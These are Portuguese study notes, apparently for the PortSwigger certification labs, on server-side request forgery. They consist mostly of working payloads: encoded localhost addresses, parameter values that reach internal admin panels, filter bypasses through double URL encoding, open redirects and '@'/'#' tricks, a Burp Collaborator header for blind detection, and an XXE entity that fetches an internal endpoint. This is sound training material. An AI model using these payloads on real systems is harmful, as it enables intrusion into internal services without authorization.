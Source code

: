 # SSRF - Server Side Request Forgery

Se você encontrar SSRF no exame, utilize para ler arquivos internos no endereço `localhost:6566`, como designado pela própria PortSwigger.

Algumas alternativas ao localhost e ao 127.0.0.1:
```
2130706433
017700000001
127.1
```

Alguns bypassess não ensinados nos laboratórios:
```
Type in http://2130706433 instead of http://127.0.0.1
️Hex Encoding 127.0.0.1 translates to 0x7f.0x0.0x0.0x1
Octal Encoding 127.0.0.1 translates to 0177.0.0.01
Mixed Encoding 127.0.0.1 translates to 0177.0.0.0x1

https://h.43z.one/ipconverter/
```

O lugar para procurar por SSRF normalmente é em `/product/stock` ou em parâmetros que envolvem URL.

<br>

## Laboratórios

**Basic SSRF Against Another Back-End System**
```
stockApi=http://192.168.0.34:8080/admin

stockApi=http://localhost/admin
```

<br>
<br>

**SSRF with Blacklist-Based Input Filter**

Um método:
```
stockApi=http://127.1/AdMiN/
```

Isso funciona:
```
http://127.1/
```

Mas isso não:
```
http://127.1/admin
```

Então precisar encodar a letra 'a' em URL duas vezes (outro método):
```
http://127.1/%25%36%31dmin
```

<br>
<br>

**SSRF with Filter Bypass via Open Redirection Vulnerability**
```
stockApi=/product/nextProduct?currentProductId=2%26path%3dhttp://192.168.0.12:8080/admin

# Encodado em URL
stockApi=%2fproduct%2fnextProduct%3fcurrentProductId%3d1%26path%3dhttp%253a%2f%2f192.168.0.12%253a8080%2fadmin

# Ou na requisição GET
https://TARGET.net/product/nextProduct?currentProductId=1&path=http%3a//192.168.0.12%3a8080/admin
```

<br>
<br>

**Blind SSRF with Out-of-Band Detection**
```
Referer: http://burpcollaborator
```

<br>
<br>

**SSRF with Whitelist-Based Input Filter**
```
stockApi=http://localhost:80%2523@stock.weliketoshop.net/admin/

# Double URL Decoded
stockApi=http://localhost:80#@stock.weliketoshop.net/admin/
```

<br>
<br>

**Exploiting XXE to Perform SSRF Attacks**
```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://localhost:6566/latest/"> ]>
  <stockCheck>
    <productId>
      &xxe;
    </productId>
    <storeId>
      1
    </storeId>
  </stockCheck> 
```

![image](https://github.com/user-attachments/assets/a36ba2d0-026a-4f43-8e3c-cba411eb11ce)
